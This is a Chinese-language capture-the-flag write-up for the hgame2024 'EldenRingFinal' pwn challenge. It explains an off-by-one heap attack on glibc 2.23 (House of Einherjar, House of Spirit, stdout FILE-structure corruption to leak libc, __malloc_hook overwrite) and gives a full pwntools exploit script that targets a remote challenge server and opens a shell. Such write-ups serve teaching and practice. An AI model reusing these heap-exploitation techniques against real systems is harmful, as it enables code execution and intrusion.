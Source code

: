 ```yaml
---
title: hgame2024 week4 - EldenRingFinal
date: 2024/2/28 18:46:00
updated: 2024/7/25 12:34:56
tags:
    - IO arb write
    - heap - unsortedbin
    - off-by-one
    - House of Einherjar
    - House of Spirit
    - libc2.23
excerpt: 通过利用堆重叠和off-by-one漏洞，修改glibc的stdout指针以泄露libc地址，并最终利用__malloc_hook执行OneGadget。
---
```


~~标题依旧是没活~~  
{% note %}
you need to learn some FILE IO knowlegde first
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

众所周知，`.bss`段上存在`stdout`, `stdin`, `stderr`三个指针指向glibc中的`IO_FILE`，
又知修改`_IO_2_1_stdout_`的`_IO_write_base`，将其覆写为小于`_IO_write_ptr`的值，
可以在执行`puts`等函数时输出从base到ptr的字节，从而在没有`show`的情况下泄露libc

由于没开PIE，我们可以先利用Off-by-One打 **House of Einherjar** 造成Heap Overlap，以进行 Arbitrary Alloc，
利用字节错位分配堆块到`stdout`地址低处，打 **House of Spirit** 伪造堆块并修改`stdout`，
使其指向`_IO_2_1_stdout_`低地址处字节错位  
然后依次将堆块分配到伪造的堆块、`_IO_2_1_stdout_`低地址处（在`_IO_2_1_stderr_`中），
然后覆写`_IO_2_1_stderr_`结构体直到覆写`_IO_2_1_stdout_`的`_flags`为`0xfbad1800`，
以及其`_IO_write_ptr`为`_IO_2_1_stdout_`的`_chain`的地址（指向`_IO_2_1_stdin_`），
这样，在`add_note`结束时运行`puts("success!")`的时候就会泄露出libc（即`_IO_2_1_stdin_`的地址）  
要注意的是远程地址有偏移，在修改`stdout`时，由于需要修改2个字节，因此要爆破1/16的概率

> 一开始我借`stdout`为跳板，改`stdin`为0(prev_size)，想打`stderr`，结果发现，`scanf`会用到`stdin`！
> 也就是在执行`scanf`的时候直接SIGSEGV了，于是我就倒着找，在`stdout`之前的只读段中找跳板（libc非0的最高字节），
> 由于malloc时不会写入数据，因此这么做不会报错

在leak了之后，恢复堆结构，再打 **House of Einherjar** ，分配到`&__malloc_hook - 0x23`的位置写OneGadget即可

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering4')
        if lo & 2:
            gdb.attach(sh, gdbscript='p /x &_IO_2_1_stdout_')
    else:
        sh = remote('139.224.232.162', 31630)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
    elf = ELF('./eldering4')

    def eofHandler():
        warn(f'eof detected! running line {inspect.stack()[2][2]}') # print the line currently running
        if sh.can_recv():
            info(str(sh.recv()))
        sh.close()
        return None

    def addPage():
        sh.sendlineafter(b'>', b'1')

    def delPage(page:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'page', str(page).encode())

    def addNote(page:int, size:int, content:bytes=b'\n') -> bytes:
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'to?\n>', str(page).encode())
        sh.sendlineafter(b'size:\n>', str(size).encode())
        sh.sendafter(b'tent:\n>', content)
        try:
            ret = sh.recvuntil(b'success!', False, 1)
        except EOFError:
            return eofHandler()
        if not ret:
            return eofHandler()
        elif ret[:1] == b'\n': # sometimes there is a '\n', sometimes not
            ret = ret[1:]
        return ret

    def delNote(page:int, note:int):
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'>', str(page).encode())
        sh.sendlineafter(b'>', str(note).encode())

    chunkHead = elf.symbols['stdout'] - 0x2b # byte misalignment
    wStdoutOffset = (libc.symbols['_IO_2_1_stdout_'] - 0x43) & 0xfff
    if lo & 4:
        bruteByte = int(input('input last WORD of &_IO_2_1_stdout_: 0x'), 16) & 0xf000
    else:
        bruteByte = 0x4000
    wStdoutOffset += bruteByte
    bStdoutChain = (libc.symbols['_IO_2_1_stdout_'] + 0x68) & 0xff

    # alloc some 0x31 chunks in case allocations of structs influence our work
    addNote(0, 0x20) # 1
    addNote(0, 0x20) # 2
    addNote(0, 0x20) # 3
    addNote(0, 0x20) # 4
    addNote(0, 0x20) # 5
    delNote(0, 1)
    delNote(0, 2)
    delNote(0, 3)
    delNote(0, 4)
    delNote(0, 5)

    # house of einherjar #1, alloc to stdout - 0x2b to modify stdout
    addNote(0, 0x88) # 1
    addNote(0, 0x68) # 2
    addNote(0, 0x88) # 3
    addNote(0, 0x8) # 4 guard chunk, preventing chunks from being merged into top chunk
    delNote(0, 1)                                       # release in advance
    delNote(0, 2)
    addNote(0, 0x68, b'0'*0x60 + p64(0x100) + p8(0x90)) # 5 zero out PREV_INUSE of next chunk
    delNote(0, 3)                                       # cause heap overlap
    delNote(0, 5)                                       # now chunk 5 is in unsorted bin and fastbin
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead)) # 5 mod chunk 5's fd in fastbin
    addNote(0, 0x68) # 6 chunk 5 in fastbin
    addNote(0, 0x68, b'\0'*0x3 + p64(0)*2 + p64(0x71) + p16(wStdoutOffset)) # 7 alloc below stdout, force a chunk and mod stdout, 1/16 chance
    delNote(0, 5)
    delNote(0, 6)                                       # restore heap layout (like line 80)

    # house of einherjar #2, alloc to stdout and mod _IO_write_base
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead + 0x1b)) # 8
    addNote(0, 0x68) # 9
    addNote(0, 0x68) # 10
    ret = addNote(0, 0x68, b'\0'*0x33 + p64(0xfbad1800) + p64(0)*3 + p8(bStdoutChain)) # 11
    if ret is None:
        return 0

    stdin = u64(ret[:6] + b'\0\0')
    libcBase = stdin - libc.symbols['_IO_2_1_stdin_']
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf0897

    # house of einherjar #3, alloc to __malloc_hook and write one gadget
    delNote(0, 9)
    delNote(0, 8) # restore heap layout
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(mallocHook - 0x23)) # 12
    addNote(0, 0x68) # 13
    addNote(0, 0x68, b'\0'*0x13 + p64(ogg)) # 14
    addPage() # trigger mallocHook

    sh.clean()
    sh.interactive()
    return 1
```
